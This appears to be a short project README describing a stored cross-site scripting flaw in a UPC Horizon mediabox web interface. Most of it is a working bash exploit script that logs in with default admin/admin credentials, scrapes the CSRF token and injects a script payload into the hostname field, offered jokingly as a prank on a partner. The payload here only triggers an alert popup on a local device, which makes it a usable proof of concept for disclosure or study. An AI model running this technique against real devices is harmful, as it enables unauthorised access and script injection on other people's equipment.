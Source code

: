 # Javascript XSS

It is of course no problem at all, but there is no proper sanitizing going on in some of the fields in the user interface.

![upc box webinterface](https://raw.github.com/mrquincle/horizon/master/js_clientside/horizon_webinterface.png)

A script like this will be fun for your sweetheart. :-)

    #!/bin/bash
    
    # Mediabox url
    mediabox_url=http://192.168.0.32/cgi-bin
    
    # Store cookie in cookie.txt, stores a sessionID
    cookie=cookie.txt
    
    # Login as admin/admin
    curl -v -H "User-Agent: Mozilla/5.0" -H "Connection: keep-alive" --cookie  $cookie --cookie-jar $cookie "$mediabox_url/sendResult.cgi?action=login&page=login&username=admin&password=admin"
        
    # get token
    token=$(curl -s --cookie $cookie -H "User-Agent: Mozilla/5.0" -X GET $mediabox_url/basic.cgi | grep token_csrf | cut -f4 -d' ' | cut -f2 -d'=' | tr -d "\"")
    echo "Token obtained: $token"

    # construct payload
    payload='"/><script>alert("Hi my sweetheart")</script>'
    echo "Use payload: $payload"

    # send the command to the box
    curl -s --cookie $cookie -H "User-Agent: Mozilla/5.0" --data "page=basic" --data "token_csrf=$token" --data "action=saveInternet" --data "hostname=$payload" $mediabox_url/sendResult.cgi&section=internet

    echo "Navigation now to: http://192.168.0.32/cgi-bin/basic.cgi"

If your girlfriend now goes to http://192.168.0.32 and then the Basic tab, she will get a popup.

Be very careful with this, and make sure you backup your system before this (it's on one of the other tab pages). However, if you screw up totally you can always set the thing to factory defaults via the television itself. But do not complain if you screw it up such that you cannot change those basic settings anymore for example. :-)
